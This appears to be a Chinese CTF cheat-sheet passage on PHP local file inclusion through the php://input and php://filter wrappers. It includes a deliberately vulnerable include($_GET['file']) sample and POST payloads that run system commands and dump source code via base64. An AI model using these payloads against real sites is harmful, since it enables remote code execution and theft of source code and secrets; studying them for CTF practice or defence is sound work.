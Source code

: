 #### 特性 `Allows Reading`

影响函数

```
include
include_once
require
require_once
file_get_contents
fopen
```

### php://input

可以访问请求的原始数据的只读流(这个原始数据指的是POST数据)

#### 样例

```
<?php
　　@include($_GET["file"]);
?>
http://localhost/test/index.php?file=php://input

# echo test
post: <?php echo 111;?>

# phpinfo
post: <?php pnpinfo();?>

# system
post: <?php system('ipconfig');?>
```

* 读文件

```
<?php echo file_get_contents("solution.php");?>
```

在利用文件包含进行代码执行的时候，我们通过file_get_contents获取到的文件内容，如果是一个.php文件，会被当作include的输入参数，也就意味着会被再执行一次，则我们无法看到原始代码了. 解决这个问题的方法就是使用`base64_encode`进行编码

```
<?php echo base64_encode(file_get_contents("solution.php"));?>
```

### php://filter

利用主要是利用了resource和vonvert，可以读取到php的代码

ctf 赛事中，url参数值出现很像文件名的情况下，很有可能是文件包含， 可利用 filter 协议读源码， 通常 flag 在 flag.php info.php phpinfo.php 这几个文件中，优先考虑

> php>=5.0


[5]: http://php.net/manual/zh/features.file-upload.post-method.php